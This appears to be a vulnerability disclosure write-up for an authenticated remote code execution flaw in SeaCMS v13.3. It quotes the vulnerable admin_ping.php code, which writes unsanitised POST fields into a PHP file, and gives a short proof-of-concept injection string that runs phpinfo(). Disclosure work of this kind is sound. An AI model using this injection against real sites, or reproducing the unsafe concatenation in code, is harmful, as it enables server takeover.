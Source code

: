 ### Introduction

SeaCMS v13.3 contains a remote code execution vulnerability. This vulnerability arises from the following: although `admin_ping.php` applies some restrictions on the files being edited, attackers can bypass these restrictions and write code via concatenation, allowing authenticated attackers to exploit this vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Vulnerability Analysis and Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ping.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ping.php`.

```php
<?php header('Content-Type:text/html;charset=utf-8');  
require_once(dirname(__FILE__)."/config.php");
if($action=="set")  
{  
    $weburl= $_POST['weburl'];  
    $token = $_POST['token'];  
    $open=fopen("../data/admin/ping.php","w" );  
    $str='<?php  ';  
    $str.='$weburl = "';  
    $str.="$weburl";  
    $str.='"; ';  
    $str.='$token = "';  
    $str.="$token";  
    $str.='"; ';  
    $str.=" ?>";  
    fwrite($open,$str);  
    fclose($open);  
    ShowMsg("Settings saved successfully!","admin_ping.php");  
    exit;  
}
```

The web page is located at the backend management path `0omeqd/admin_ping.php`. We inject concatenated PHP code into the second key field. The PoC is:

```r
123456789";phpinfo();$a="1
```

![Image1](./public/4-2.png.png)

After accessing the PHP path, the PHP code executes successfully.

```r
data/admin/ping.php
```

![Image1](./public/4-3.png.png)
